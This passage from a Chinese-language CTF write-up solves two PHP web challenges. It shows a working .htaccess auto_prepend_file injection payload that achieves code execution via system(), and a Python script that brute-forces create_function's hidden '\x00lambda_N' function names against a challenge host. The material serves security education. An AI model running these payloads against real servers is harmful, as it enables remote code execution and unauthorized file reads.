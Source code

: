 给了一个写入文件的方法，但是除了**index.php**都会被删除，尝试文件竞争没成功。。

于是只能考虑一个写入了就会执行的文件，也就是`.htaccess`

利用它来更改**index.php**中的内容，从而rce

`.htaccess`

```htaccess
php_value auto_prepend_fil\ 
e .htaccess 
#<?php system('cat /fla'.'g');?>\ 
```

**payload**

```
?content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\&filename=.htaccess
```

然后访问**index.php**得到flag

## [SUCTF 2018]annonymous

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

可以看到两个熟悉但陌生的函数`create_function` `openssl_random_pseudo_bytes`

爆破随机数估计不太可能，想要执行这个`SUCTF_$hash()`估计只能靠php的cve

但是`create_function`创造的匿名函数也是有名字的`\x00lambda_%d` %d也就是当前进程数，所以不断爆破就可以了

```php
import requests
import time

url = 'http://461089ec-4877-4f84-a372-4fe9fd4ef1c3.node4.buuoj.cn:81/?func_name='
for i in range(5000):
   payload = f'\x00lambda_{i}'
   r = requests.get(url + payload)
   if 'flag' in r.text:
       print(r.text)
       break
   time.sleep(0.1)
```

